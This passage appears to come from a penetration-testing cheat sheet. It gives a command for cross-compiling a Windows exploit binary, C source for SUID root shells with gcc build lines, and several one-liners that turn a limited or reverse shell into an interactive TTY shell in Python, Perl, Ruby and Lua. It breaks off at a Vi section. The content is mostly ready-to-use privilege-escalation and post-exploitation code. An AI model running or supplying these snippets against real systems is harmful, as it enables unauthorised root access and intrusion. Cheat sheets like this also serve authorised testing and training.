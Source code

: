 </thead>
<tbody>
<tr>
<td>i586-mingw32msvc-gcc exploit.c -lws2_32 -o exploit.exe</td>
<td>Compile windows .exe on Linux</td>
</tr>
</tbody>
</table>
<h2>SUID Binary</h2>
<p>Often SUID C binary files are required to spawn a shell as a superuser, you can update the UID / GID and shell as required.</p>
<p>below are some quick copy and pate examples for various shells:</p>
<h3>SUID C Shell for /bin/bash</h3>
<figure>
<pre>int main(void){
       setresuid(0, 0, 0);
       system("/bin/bash");
}</pre>
</figure>
<h3>SUID C Shell for /bin/sh</h3>
<figure>
<pre>int main(void){
       setresuid(0, 0, 0);
       system("/bin/sh");
}</pre>
</figure>
<h3>Building the SUID Shell binary</h3>
<figure>
<pre>gcc -o suid suid.c</pre>
</figure>
<p>For 32 bit:</p>
<figure>
<pre>gcc -m32 -o suid suid.c</pre>
</figure>
<h2>TTY Shells</h2>
<p>Tips / Tricks to spawn a TTY shell from a limited shell in Linux, useful for running commands like su from reverse shells.</p>
<h3>Python TTY Shell Trick</h3>
<figure>
<pre>python -c 'import pty;pty.spawn("/bin/bash")'</pre>
</figure>
<figure>
<pre>echo os.system('/bin/bash')</pre>
</figure>
<h3>Spawn Interactive sh shell</h3>
<figure>
<pre>/bin/sh -i</pre>
</figure>
<h3>Spawn Perl TTY Shell</h3>
<figure>
<pre>exec "/bin/sh";
perl —e 'exec "/bin/sh";'</pre>
</figure>
<h3>Spawn Ruby TTY Shell</h3>
<figure>
<pre>exec "/bin/sh"</pre>
</figure>
<h3>Spawn Lua TTY Shell</h3>
<figure>
<pre>os.execute('/bin/sh')</pre>
</figure>
<h3>Spawn TTY Shell from Vi</h3>
<p>Run shell commands from vi:</p>
<figure>